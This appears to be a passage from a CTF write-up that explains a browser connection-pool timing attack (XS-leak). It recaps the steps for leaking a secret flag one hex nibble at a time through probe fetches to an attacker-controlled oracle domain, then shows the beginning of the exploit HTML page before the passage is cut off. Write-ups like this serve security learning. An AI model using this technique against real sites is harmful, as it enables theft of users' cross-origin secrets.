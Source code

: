 This creates timing differences that we can exploit, while `aa` and `fa` will have almost no delay in between, when `fa` gets resolved then `flag` will need to be resolved creating a big enough gap that we can confidently detect.

 

{{< svg src="images/post2/svg/final.svg" >}}


As a general recap:

1. **Open the victim page and keep a window handle.**
2. **Fill the global connection pool** with 255 long-lived requests to your oracle.
3. **Arm one fused request** that ends soon to free exactly one socket.
4. **Queue 16 probe fetches** for `0-9, a-f` as subdomains against your oracle.
5. **Trigger a `hashchange` on the victim** so its fetch joins the queue between two probes.
6. **Wait for the fuse to fire** so the queue drains one-by-one in sorted order.
7. **Record probe arrival times** and compute gaps between consecutive arrivals.
8. **Select the maximum gap**; the character on the left (LHS) is the victim’s hex nibble.

Here’s the code I’ve used, tweaked a bit with the help of gpt, i was too lazy to make it more efficient and leak more characters at once.

{{< details summary="index.html" >}} 
```html
<!DOCTYPE html>
<meta charset="utf-8" />
<title>Hex Queue-order leak (0-f, *.0xalessandr0.me)</title>
<style>
    body {
        font-family: system-ui, sans-serif;
        padding: 12px
    }

    button {
        margin: 4px 6px;
        padding: 8px 10px
    }

    #log {
        margin-top: 10px;
        font-family: ui-monospace, Menlo, Consolas, monospace;
        white-space: pre-wrap
    }

    #flag-display {
        margin: 10px 0;
        padding: 10px;
        background: #f0f0f0;
        border-radius: 4px;
        font-family: ui-monospace, Menlo, Consolas, monospace;
        font-size: 1.2em;
    }
</style>

<h3>Detect victim insertion between our hex chars (no sleeps)</h3>
<div id="flag-display">Flag: <span id="flag-text"></span></div>
<div>
    <label>Fill count <input id="fill" type="number" min="200" max="256" value="255"></label>
    <label>Fuse (ms) <input id="fuse" type="number" min="100" max="60000" value="5000"></label>
    <label>Min gap (ms) <input id="mingap" type="number" min="10" max="5000" value="50"></label>
    <label>Max wait (ms) <input id="maxwait" type="number" min="1000" max="60000" value="30000"></label>
</div>
<div>
    <button onclick="prep()">Step 1: open victim</button>
    <button onclick="fill()">Step 2: fill holders + fuse</button>
```